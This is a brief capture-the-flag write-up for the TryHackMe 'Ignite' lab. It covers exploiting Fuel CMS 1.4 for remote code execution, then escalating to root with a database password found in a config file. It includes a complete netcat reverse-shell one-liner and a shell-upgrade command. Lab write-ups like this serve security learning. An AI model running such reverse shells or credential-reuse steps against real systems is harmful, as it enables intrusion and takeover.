

# Ignite (THM)

- https://tryhackme.com/room/ignite
- March 4, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 80/http Apache httpd 2.4.18 (Ubuntu)
   - robots.txt -> /fuel/
2. 5405/tcp



## Get User Access

- fuel CMS 1.4
- find from searchsploit and found RCE for fuel CMS
- I edit to python3 and get RCE
- enter cmd to get reverse shell
- listen with nc at local machine and in cmd

```sh
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- get `www-data` user access
- spawn shell

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
$ cat /home/www-data/flag.txt
```

## Get Root Access

- `sudo -l` -> don't know password
- find SUID -> nothing special found
- run linpeas
- Interested Findings

```
- Vulnerable to CVE-2021-4034
- Active Ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -

```

- nothing found but there are many files inside /var/www/html
- I found data configuration file at `/var/www/html/fuel/application/config/database.php`

```php
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
...
```

- change root user with password

```sh
$ su root
$ cat /root/root.txt
```

---
